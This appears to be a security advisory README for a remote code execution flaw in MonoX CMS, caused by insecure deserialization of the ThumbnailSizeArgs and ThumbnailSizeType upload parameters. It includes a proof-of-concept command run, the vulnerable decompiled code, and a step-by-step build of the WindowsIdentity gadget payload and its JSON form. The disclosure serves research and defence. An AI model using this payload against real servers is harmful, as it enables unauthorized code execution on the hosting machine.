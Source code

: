 # HTML5Upload and SilverLightUploadHandler - Remote Code Execution

## VulDB-Like Summary

A vulnerability has been found in the MonoX CMS for .NET up to v5.1.40.5152. It has been rated as critical. Affected by this issue are the classes `MonoX.MonoSoftware.MonoX.HTML5Upload` and `MonoX.MonoSoftware.MonoX.SilverLightUploadHandler`. The combined manipulation of the of the **ThumbnailSizeArgs** an **ThumbnailSizeType** parameters leads to Remote Code Execution vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able execute arbitrary code within the application context, and use them to achive remote code execution within the underlying hosting server.

The weakness was presented 04/19/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-XXXX. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

An exploit script is provided in this repository, which may be used to easily verify and exploit the vulnerability.

The script should give the following output, proving the vulnerability.

```
$ python3 exploit.py -t http://monox.local -u admin -p Passw0rd! -c calc -y path/to/ysoserial.exe
[*] Logging in
[*] Triggering RCE
[+] Success!
```

When the script finishes, a calculator should spawn in the target server.

## Walkthrough

This vulnerability was easily found through a deep code analysis. The affected code block is the following one:

```csharp
if (base.Request.Form["ThumbnailSizeArgs"] != null && base.Request.Form["ThumbnailSizeType"] != null)
    {
        try
        {
            string @string = Encoding.UTF8.GetString(Convert.FromBase64String(base.Request.Form["ThumbnailSizeType"]));
            this.ThumbnailSize = (JsonSerializer.Deserialize(Convert.FromBase64String(base.Request.Form["ThumbnailSizeArgs"]), Type.GetType(@string)) as ThumbnailSizeEventArgs);
        }
        catch (Exception logMessage)
        {
            this.log.Error(logMessage);
        }
    }
```

As observable, the JsonSerializer is deserializaing directly the request parameter `ThumbnailSizeArgs`, without any prior validation of its content.

The `JsonSerializer` object is an instance of the custom MonoX class `MonoSoftware.Core.JsonSerializer`. Studing this class, it was possible to identify the actual implementation of the Deserialize function call:

```csharp
public static object Deserialize(Stream content, Type type)
    {
        DataContractJsonSerializer dataContractJsonSerializer = new DataContractJsonSerializer(type);
        DataContractJsonSerializer dataContractJsonSerializer2;
        if (5 != 0) // Decompiled if
        {
            dataContractJsonSerializer2 = dataContractJsonSerializer;
        }
        return dataContractJsonSerializer2.ReadObject(content);
    }
```

From that, it was possible to ascertain that the deserialization routine was using `DataContractJsonSerializer`, taking `ThumbnailSizeArgs` as the seriliazed payload, and `ThumbnailSizeType` as the type to use for deserialization.

`DataContractJsonSerializer` is one of the .NET formatters that are basically secure, and usually free from deserialization issues, as it uses a strong object graph inspection, forbidding the deserialization of non-whitelisted objects. However, even `DataContractJsonSerializer` can be affected by insecure deserialization if the "Type" parameter passed to `Deserialize` is controllable by an external attacker, as this "Type" is automatically added to the whitelist. It may be obvious, but that was the case.

As no automatic payload generator was available in **ysoserial.net**, crafting the payload for this instance required a bit of manual interaction. After a bit of research, it was clear that `WindowsIdentity` was the right POP chain to use, as it supports `DataContractSerializer`, and because its payload is a "one level" XML.

```xml
<root type="System.Security.Principal.WindowsIdentity, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <WindowsIdentity xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns:x="http://www.w3.org/2001/XMLSchema" xmlns="http://schemas.datacontract.org/2004/07/System.Security.Principal">
      <System.Security.ClaimsIdentity.actor i:type="x:string" xmlns="">
          {base64-encoded-payload}
      </System.Security.ClaimsIdentity.actor>
       </WindowsIdentity>
</root>
```
From the XML above, it was possible to identify all the needed information to craft the final exploit:

**Type**

```
System.Security.Principal.WindowsIdentity, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

**Payload**

Transformed in JSON format, the payload was reduced to:

```json
{"System.Security.ClaimsIdentity.actor":"[base64-encoded-payload]"}
```

Upon deserialization, it was then possible to execute arbitrary code on the underlying Windows Hosting Server.  

## Remediation

Currently, no fixes are available for this issue.

## References

*   [CWE-1236](https://cwe.mitre.org/data/definitions/1236.html)
*   [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
*   [OWASP Top 10 - A8-Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)